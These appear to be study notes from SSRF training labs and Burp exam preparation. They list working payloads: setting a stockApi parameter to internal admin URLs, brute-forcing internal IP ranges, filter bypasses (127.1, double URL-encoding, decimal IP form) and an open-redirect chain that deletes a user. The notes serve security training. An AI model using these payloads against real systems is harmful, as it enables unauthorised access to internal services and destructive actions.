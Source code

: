 ## SECRET PARAMETER:
```
GET /fetch?url=http://example.com/admin
```

## SSRF mostly with "Check stock"
In this lab they state the admin interface is at `http://192.168.0.12:8080/admin` but in the Burp exam use the `localhost:6566`.

## Basic SSRF against the local server

stockApi parameter to http://localhost/admin

## Basic SSRF against another back-end system

1) stockApi parameter to http://192.168.0.1:8080/admin.
2) Add §. Payloads , change the payload type to Numbers, and enter 1, 255. Brute ip. Receive 200.

## Blind SSRF with out-of-band detection

1) Visit a product, intercept the request in Burp Suite.
2) Referer header, right-click and select "Insert Collaborator Payload" to replace the original domain.

## SSRF with blacklist-based input filter

1) `stockApi` parameter to `http://127.0.0.1/`.
2) `http://127.1/admin`.
3) If still not working, try to encode "a" with `%2561`.

## SSRF with filter bypass via open redirection vulnerability

1) `stockApi` parameter and observe that it isn't possible to make the server issue the request directly to a different host.
2) Click "next product" and observe that the path parameter is placed into the Location header of a redirection response, resulting in an open redirection.
3) Create URL `/product/nextProduct?path=http://192.168.0.12:8080/admin` and feed it to the `stockApi` parameter.
4) Delete user `/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`.

# ByPasses:

## Bypassing filters by obfuscating URLs or using IP addresses in different formats (eg decimal, hexadecimal).

```
http://2130706433/admin
```
